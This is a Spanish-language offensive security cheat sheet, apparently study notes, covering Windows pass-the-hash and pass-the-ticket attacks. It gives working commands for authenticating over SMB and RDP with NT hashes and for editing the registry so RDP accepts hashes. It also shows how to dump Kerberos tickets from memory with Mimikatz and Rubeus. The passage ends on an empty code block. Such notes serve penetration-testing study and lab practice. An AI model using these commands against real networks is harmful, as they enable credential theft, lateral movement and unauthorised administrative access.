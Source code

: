 ```bash
smbclient \\\\$target\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```
#### Con `xfreerdp`
```bash
xfreerdp  /v:$target /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```
Esto normalmente no funcionará, ya que por defecto hay un `Restricted Admin Mode` habilitado. 
##### Habilitar `Restricted admin mode`
Debemos cambiar un valor del registro para que podamos obtener acceso: 
```cmd-session
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
##### Valor de la clave `LocalAccountTokenFilterPolicy`
Aún así, por defecto, la clave citada tiene el valor por defecto `0`, lo cual significa que solo la cuenta de Administrador (RID-500) puede realizar tareas administrativas de forma remota
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```
##### Valor de la clave `FilterAdministratorToken`
Por defecto está deshabilitada (valor `0`). Si estuviera habilitada, fallaría el ataque PtH incluso con el usuario administrador
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken
```

---
 ##  Pass-the-Ticket (PtT)
Para este tipo de ataque se necesitan extraer tickets de tipo `TGT` ó `Service ticket`. En la práctica trabajaremos con `TGTs`, ya que son más valiosos y si podemos extraer un `Service ticket` es muy probable que podamos extraer también un `TGT`.
### Exportar Tickets
En cualquiera de los casos necesitaremos permisos de administrador
#### Con `Mimikatz`
```
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
Los tickets que contienen en el nombre el servicio `krbtgt` son tickets de tipo `TGT`
##### Información del ticket
Podemos ver la información del ticket del siguiente modo
```cmd-session
kerberos::list /ticket:<ruta_al_ticket>.kirbi
```

#### Con `Rubeus`
##### Exportar tickets `.kirbi`
El siguiente comando exporta los archivos **en formato `.kirbi`**
```cmd-session
rubeus.exe dump /export
```
El siguiente comando muestra los tickets en memoria.
##### Exportar tickets base64
También muestra estos tickets **en `base64`**, lo cual nos permitirá cargar tickets con este formato posteriormente
```
rubeus.exe dump /nowrap
```
##### Información del ticket
Podemos ver la información del ticket del siguiente modo
```cmd-session
```